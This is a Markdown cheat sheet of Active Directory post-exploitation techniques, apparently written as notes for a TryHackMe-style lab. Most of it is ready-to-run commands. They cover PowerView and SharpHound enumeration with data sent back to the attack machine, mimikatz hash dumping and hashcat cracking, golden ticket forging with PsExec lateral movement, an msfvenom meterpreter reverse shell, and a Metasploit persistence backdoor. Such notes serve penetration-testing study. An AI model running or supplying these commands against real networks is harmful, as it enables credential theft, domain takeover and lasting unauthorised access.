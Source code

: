 # Post-Exploitation Basics

## Enumeration w/ Powerview

{% hint style="info" %}
After you have already gained a shell in the system.
{% endhint %}

```powershell
# Start PowerShell
powershell -ep bypass
# Start PowerView
. .\Downloads\PowerView.ps1
# Enumerate the domain users
Get-NetUser | select cn
# Enumerate the domain groups
Get-NetGroup -GroupName *admin*
```

Cheat Sheet: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

## Enumeration w/ Bloodhound

### Getting loot w/ SharpHound

```powershell
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
# Transfer the loot.zip file back to Attack machine
```

### Mapping the network w/ BloodHound

```powershell
# Execute BloodHound
bloodhound
# Login with same credentials set with Neo4j
# From within BloodHound import the loot.zip file
# View the graphed network: Menu --> queries
```

## Dumping hashes w/ mimikatz

```powershell
mimikatz
privilege::debug
# Dump the hashes
lsadump::lsa /patch
# Crack the hashes
hashcat -m 1000 <hash> rockyou.txt
```

## Golden Ticket Attacks w/ mimikatz

### Dump the krbtgt Hash

```
mimikatz
privilege::debug
lsadump::lsa /inject /name:krbtgr
```

### Create a Golden Ticket

```powershell
# Syntax
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
# Example
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-... /krbtgt:78558f00... /id:500
```

### Use the Golden Ticket to access other machine

```powershell
# This will open a new command prompt with elevated privileges to all machines
misc::cmd
# Access other Machines! - You will now have another command prompt with access to all other machines on the network
dir \\Desktop-1\c$
PsExec.exe \\Desktop-1 cmd.exe
```

## Enumeration w/ Server Manager

This is what Windows Server Manager will look when you first open it up the main tabs that will be most interesting are the tools and manage tabs the tools tab is where you will find most of your information such as users, groups, trusts, computers. The manage tab will allow you to add roles and features however this will probably get picked up by a systems admin relatively quick.

Navigate to the tools tab and select the Active Directory Users and Computers

This will pull up a list of all users on the domain as well as some other useful tabs to use such as groups and computers

Some sys admins don't realize that you as an attacker can see the descriptions of user accounts so they may set the service accounts passwords inside of the description look into the description and find what the SQL Service password is

## Maintaining Access

### Generating a Payload w/ msfvenom

1. Generate a basic windows meterpreter reverse tcp shell\
   `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe`
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your THM IP address as your "LHOST", start the listener with `run`
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

### Run the Persistence Module

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the `sessions` command in metasploit to list the active sessions)

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.
